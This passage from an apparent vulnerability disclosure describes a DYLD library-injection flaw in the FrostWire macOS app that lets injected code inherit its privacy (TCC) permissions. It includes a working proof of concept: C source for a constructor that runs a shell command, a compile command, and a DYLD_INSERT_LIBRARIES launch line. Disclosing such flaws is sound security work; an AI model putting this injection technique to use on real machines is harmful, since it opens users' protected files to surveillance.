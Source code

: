 A TCC bypass is particularly useful in post-exploitation scenarios where an attacker already has code execution on the system but is limited by macOS privacy restrictions. For example, even if an attacker has root access, macOS still enforces TCC rules unless explicitly overridden. A successful bypass allows the attacker to:

- Code execution in the app’s security context
- Access to TCC-protected resources (e.g. `personal folders` (`~/Downloads`, `~/Documents` etc.)

This kind of bypass is often used in advanced threat scenarios or red team operations, where stealth and full access are critical. It allows attackers to escalate from a restricted execution context to full surveillance capabilities, often as part of persistence or lateral movement strategies.


### Proof-of-Concept

>This Proof of Concept demonstrates a DYLD-based code injection vulnerability in the FrostWire macOS desktop application.

Create a `dyld-exp.c` file we'll compile this to a `.dyld` file. 

```c
swayzgl1tzyyy@SwayZGl1tZyyys-Mac /tmp % cat dyld-exp.c 

#include <stdio.h>
#include <stdlib.h>
  
__attribute__((constructor))
void injected() {
    system("osascript -e 'display dialog \"✅ DYLD Injection @SwayZGl1tZyyy, Sunday 13 July 2025 \
Succeeded!\"'");
}
```

Compile it into a dynamic library (`exploit.dyld` file):
```sh
clang -dynamiclib -o exploit.dylib dyld-exp.c
```

Launch FrostWire with the injected library:
```sh
DYLD_INSERT_LIBRARIES=./exploit.dylib /Applications/FrostWire.app/Contents/MacOS/FrostWire
```

Before FrostWire launches, a dialog will pop up indicating the injected code was successfully executed. This demonstrates that:

- Code execution occurs before app startup
- The injected code runs without user consent
- The injection can inherit TCC permissions from the app

<img width="2998" height="2058" alt="fpoc" src="https://github.com/user-attachments/assets/c5d8798f-26c2-4f8c-9f80-69dd9cb5b813" />
Figure 1: Proof of Concept is successfully executed

This confirms a code-signing and TCC bypass vulnerability enabled by insecure entitlements.

## Reproducing the TCC Bypass via Dylib Injection
